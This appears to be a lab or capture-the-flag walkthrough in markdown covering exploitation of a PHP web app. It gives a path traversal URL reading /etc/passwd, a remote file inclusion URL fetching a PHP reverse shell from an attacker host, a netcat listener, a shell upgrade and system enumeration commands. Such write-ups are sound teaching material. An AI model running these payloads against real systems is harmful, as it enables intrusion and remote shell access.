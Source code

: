     
  
Looks at the file `searchsploit -x php/webapps/25971.txt` or download it to the current folder `searchsploit -m php/webapps/25971.txt`
  
  
Check out the txt file and get infos about the exploit.  
  
  
###
**Task 1.3 solved**
### 
  
--- 
  

# <ins> Remote file inclusion </ins>
  


Example:  
`http://10.10.128.36/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`
  

-> Checkout the system an get a php.reverse shell running

<ins> Php reverse shell </ins>
  

Get the code for a php.reverse shell from google [Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and save the rev.php locally (change $IP and $Port).  
The start a python http server and get a connection via the *remote file inclusion*.  
Don't forget to start a listener (`nc -lvpn $port`).  
  
  
`http://10.10.128.36/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.14.2.242:4444/shell.php`


---  
  

# <ins> Priv. Escalation </ins>
    
  
## <ins>Shell upgrade</ins>
  
`python -c 'import pty;pty.spawn("/bin/bash")'`,  
` ctl+Z`,  
` stty raw -echo; fg`,  
` "enter" + "enter"`,  
`export TERM=xterm-256color`.  
  

## <ins> Manual system enumeration </ins>
  

1. Get infos: 
`cat /proc/version`, `uname -a`, `id` and `cat /etc/passwd`.
  